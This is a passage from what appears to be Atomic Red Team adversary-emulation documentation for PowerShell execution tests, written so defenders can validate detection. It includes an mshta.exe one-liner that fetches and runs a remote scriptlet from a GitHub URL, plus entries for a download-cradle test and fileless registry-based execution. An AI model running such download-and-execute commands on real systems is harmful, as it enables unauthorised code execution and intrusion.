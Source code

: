 
#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | url of payload to execute | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\system32\cmd.exe /c "mshta.exe javascript:a=GetObject('script:#{url}').Exec();close()"
```






<br/>
<br/>

## Atomic Test #10 - Powershell Invoke-DownloadCradle
Provided by https://github.com/mgreen27/mgreen27.github.io
Invoke-DownloadCradle is used to generate Network and Endpoint artifacts.

**Supported Platforms:** Windows


**auto_generated_guid:** cc50fa2a-a4be-42af-a88f-e347ba0bf4d7





#### Run it with these steps! 
1. Open Powershell_ise as a Privileged Account
2. Invoke-DownloadCradle.ps1







<br/>
<br/>

## Atomic Test #11 - PowerShell Fileless Script Execution
Execution of a PowerShell payload from the Windows Registry similar to that seen in fileless malware infections. Upon exection, open "C:\Windows\Temp" and verify that
art-marker.txt is in the folder.

**Supported Platforms:** Windows


**auto_generated_guid:** fa050f5e-bc75-4230-af73-b6fd7852cd73






#### Attack Commands: Run with `powershell`! 
